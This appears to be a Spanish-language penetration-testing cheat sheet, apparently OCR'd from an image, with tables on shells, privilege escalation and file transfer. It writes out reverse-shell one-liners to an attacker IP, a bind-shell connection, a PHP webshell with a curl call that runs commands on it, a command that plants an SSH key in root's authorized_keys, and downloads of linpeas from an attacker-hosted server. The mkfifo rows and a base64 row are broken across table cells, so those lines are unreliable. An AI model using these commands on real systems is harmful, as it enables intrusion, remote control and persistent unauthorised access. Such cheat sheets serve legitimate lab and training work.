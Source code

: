 #### **Uso de Shells**

|**Comando**|**Descripción**|
|---|---|
|`nc -lvnp 1234`|Iniciar un listener en un puerto local.|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Enviar una reverse shell desde el servidor remoto.|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|
|`nc 10.10.10.1 1234`|Conectarse a una bind shell en el servidor remoto.|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Mejorar la TTY de la shell (opción 1).|
|`ctrl+z then stty raw -echo then fg then enter twice`|Mejorar la TTY de la shell (opción 2).|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Crear una webshell PHP.|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Ejecutar un comando en la webshell cargada.|

#### **Escalada de Privilegios**

|**Comando**|**Descripción**|
|---|---|
|`./linpeas.sh`|Ejecutar el script **linpeas** para enumerar información en el servidor remoto.|
|`sudo -l`|Listar privilegios sudo disponibles.|
|`sudo -u user /bin/echo Hello World!`|Ejecutar un comando con sudo como otro usuario.|
|`sudo su -`|Cambiar al usuario root (si tenemos acceso a `sudo su`).|
|`sudo su user -`|Cambiar a otro usuario (si tenemos acceso a `sudo su`).|
|`ssh-keygen -f key`|Crear una nueva clave SSH.|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Agregar la clave pública generada al usuario.|
|`ssh root@10.10.10.10 -i key`|Conectarse al servidor con la clave privada generada.|

#### **Transferencia de Archivos**

| **Comando**                                            | **Descripción**                                                         |
| ------------------------------------------------------ | ----------------------------------------------------------------------- |
| `python3 -m http.server 8000`                          | Iniciar un servidor web local.                                          |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Descargar un archivo en el servidor remoto desde nuestra máquina.       |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Descargar un archivo usando `curl`.                                     |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transferir un archivo a un servidor remoto usando `scp` (requiere SSH). |
| `base64 shell -w 0`                                    | Convertir un archivo a base64.                                          |
| `echo f0VMR...SNIO...InmDwU                            | base64 -d > shell`                                                      |
| `md5sum shell`                                         | Verificar el **md5sum** del archivo para asegurar su integridad.        |
